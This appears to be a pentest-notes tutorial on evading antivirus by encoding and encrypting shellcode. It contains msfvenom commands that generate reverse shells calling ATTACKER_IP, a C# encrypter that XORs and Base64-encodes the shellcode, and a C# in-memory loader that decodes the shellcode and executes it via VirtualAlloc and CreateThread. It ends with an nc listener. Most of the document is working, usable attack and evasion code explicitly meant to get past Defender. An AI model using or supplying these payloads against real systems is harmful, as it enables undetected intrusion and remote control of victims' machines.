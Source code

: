 # Encoding and encrypting shellcode

Tools such as Metasploit provide encoding and encryption features. However, AV vendors are aware of the way these 
tools build their payloads and take measures to detect them. If you try using such features out of the box, chances 
are your payload will be detected as soon as the file touches the victim's disk. 

## Metasploit encoding

Listing encoders within the Metasploit framework:

    $ msfvenom --list encoders | grep excellent

Encoding using `Shikata_ga_nai`

    $ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp

It gets flagged by the AV. Try encrypting the payload. Intuitively, we would expect this to have a 
higher success rating, as decrypting the payload should prove a harder task for the AV. 

## Metasploit encryption

Listing encryption modules within the Metasploit framework:

    $ msfvenom --list encrypt

Xoring shellcode using the Metasploit framework:

    $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe

It still gets flagged by the AV.

## Creating a Custom Payload

The best way to overcome this is to use a custom encoding schemes so that the AV doesn't know what to do to 
analyse the payload. It does not have to be anything too complex, as long as it is confusing enough for the AV to 
analyse. Take a simple reverse shell generated by msfvenom and use a combination of XOR and Base64 to bypass Defender.

Generate a CSharp shellcode format:

    $ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp

`Encrypter.cs` (replace the buf variable with the shellcode generated with msfvenom):

```text
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Dropper for Decrypting
            string key = "MwahK3y666!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

Compile and execute on the Windows machine:

    C:\> csc.exe Encrypter.cs
    C:\> .\Encrypter.exe
    qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=

To match the encoder, decode everything in the reverse order. Start by decoding the 
`base64` content and then continue by `XOR`ing the result with the same key used in the encoder. 

`EncStageless.cs`:

```text

using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "MwahK3y666!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Compile the payload on the Windows machine:

    C:\> csc.exe EncStageless.cs

Before running the payload, set up an `nc` listener on the attack machine:

    $ nc -lvp 443





